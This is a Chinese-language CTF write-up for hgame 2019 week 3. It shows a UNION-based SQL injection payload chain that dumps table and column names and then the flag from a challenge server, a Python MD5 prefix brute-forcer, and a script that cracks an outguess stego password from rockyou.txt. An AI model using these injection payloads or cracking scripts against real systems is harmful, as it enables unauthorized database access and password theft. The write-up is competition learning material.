 # week3

注：就做了一个晚上，实在没有时间，week4一定好好做，（捂脸。。。

## web

### sqli-1

Description

 

sql 注入   参数是id

URL

<http://118.89.111.179:3000/>

Base Score 150       

Now Score 150       

User solved  74



其实就是一个简单的sql注入，应该什么都没有过滤。

给一个code，MD5爆破的代码吧（python2）：

~~~
import multiprocessing
import hashlib
import random
import string
import sys
CHARS = string.letters + string.digits
def cmp_md5(substr, stop_event, str_len, start=0, size=20):
    global CHARS
    while not stop_event.is_set():
        rnds = ''.join(random.choice(CHARS) for _ in range(size))
        md5 = hashlib.md5(rnds)
        if md5.hexdigest()[start: start+str_len] == substr:
            print rnds
            stop_event.set()
if __name__ == '__main__':
    substr = sys.argv[1].strip()
    start_pos = int(sys.argv[2]) if len(sys.argv) > 1 else 0
    str_len = len(substr)
    cpus = multiprocessing.cpu_count()
    stop_event = multiprocessing.Event()
    processes = [multiprocessing.Process(target=cmp_md5, args=(substr,
                                         stop_event, str_len, start_pos))
                 for i in range(cpus)]
    for p in processes:
        p.start()
    for p in processes:
        p.join()
		
~~~



使用方法，进入命令行模式

~~~
python name.py [string] 0
~~~

payload

~~~
118.89.111.179:3000/index.php?code=pwbSo2TtzmfkwoWFKBuQ&id=9 and 1= 2 union select%20 group_concat(f14444444g)from f1l1l1l1g #




http://118.89.111.179:3000/index.php?code=pEwP6crPsgOQkmkUmI1W&id=9%20and%201=%202%20union%20select%20%20group_concat(column_name)from%20information_schema.columns%20where%20table_name=%27f1l1l1l1g%27%20#


http://118.89.111.179:3000/index.php?code=i28QiIV28GDCwvaceykJ&id=9%20and%201=%202%20union%20select%20%20group_concat(table_name)from%20information_schema.tables%20where%20table_schema=%27hgame%27%20#
~~~

flag

~~~
hgame{sql1_1s_iNterest1ng}
~~~





## misc

### 时至今日，你仍然是我的光芒

Description

 

你知道Kali下有个强大的字典叫rockyou.txt嘛?密码为 sec.*
 hint1:DeEgger Embedder
 hint2:outguess

URL

<http://plir4axuz.bkt.clouddn.com/hgame2019/stuff/flag.zip>

Base Score 150       

Now Score    150       

User solved  17

按照提示先下载安装DeEgger Embedder，这是一个可以分离出（合并进）二进制文件的应用，使用该应用将文件分离出来，使用16进制查看器发现是一个jpg文件。

然后根据提示2，outguess，百度并下载安装，这个也是一个下载工具，还有题目描述里面提到rockyou.txt，百度一波，进入kali虚拟机，将rockyou.txt弄出了，并在里面安装outguess,3条命令即可安装

~~~
git clone https://github.com/crorvick/outguess
cd outguess
./configure && make && make install
~~~

然后就是使用脚本遍历rockyou.txt里面以sec开头的密码，

脚本如下

~~~
from subprocess import *

def foo():
    stegoFile='f.jpg'
    extractFile='hide.txt'
    passFile='rockyou.txt'

    errors=['Extracted datalen is','too long','Floating','point exception']
    cmdFormat='outguess -k "%s" -r "%s"  "%s"'
    f=open(passFile,'r')

    for line in f.readlines():
	a = line.strip()
	if a[0:3]!='sec':
	    continue
        cmd=cmdFormat %(line.strip(),stegoFile,extractFile)
        p=Popen(cmd,shell=True,stdout=PIPE,stderr=STDOUT)
        content=unicode(p.stdout.read(),'gbk')
        for err in errors:
            if err in content:
                break
        else:
            hh='strings hide.txt | grep hgame'
            hg=Popen(hh,shell=True,stdout=PIPE,stderr=STDOUT)
            hgh=unicode(hg.stdout.read(),'gbk')
            if hgh=='':
                continue
            print hgh
            print content,
            print 'the passphrase is %s' %(line.strip())
            f.close()
            return

if __name__ == '__main__':
    foo()
    print 'ok'
    pass

~~~

注：注意更改文件名就好

密码为

~~~
securitypassword
~~~



flag

~~~
hgame{Whataya_Want_From_Me}
~~~



### 听听音乐？

Description

 

一首MP3,好好听哦，flag由大写英文字母、数字以及下划线组成，记得添加hgame{}

URL

<http://plir4axuz.bkt.clouddn.com/hgame2019/a80509c91f30027ca21b069e7d94fa7718ab2e40684628c41943bf647f3d7c6a/stego.mp3>

Base Score   150       

Now Score  150       

User solved 79

签到题，音乐后面有摩尔斯电码，直接丢audacity即可

摩尔斯电码解密

~~~
FLAG:1T_JU3T_4_EASY_WAV
~~~



flag

~~~
hgame{1T_JU3T_4_EASY_WAV}
~~~

